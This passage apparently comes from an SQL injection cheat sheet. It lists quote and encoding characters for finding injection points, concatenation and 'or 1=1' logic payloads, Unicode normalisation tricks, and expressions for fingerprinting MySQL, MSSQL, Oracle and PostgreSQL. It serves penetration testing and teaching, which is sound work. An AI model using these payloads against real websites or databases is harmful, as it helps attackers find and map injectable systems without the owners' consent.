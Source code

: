 Detection of an SQL injection entry point
Simple characters

```sql
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content
```

Multiple encoding

```sql
%%2727
%25%27
```

Merging characters

```sql
`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP
```

Logic Testing

```sql
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

Weird characters

```sql
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS Identification

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
```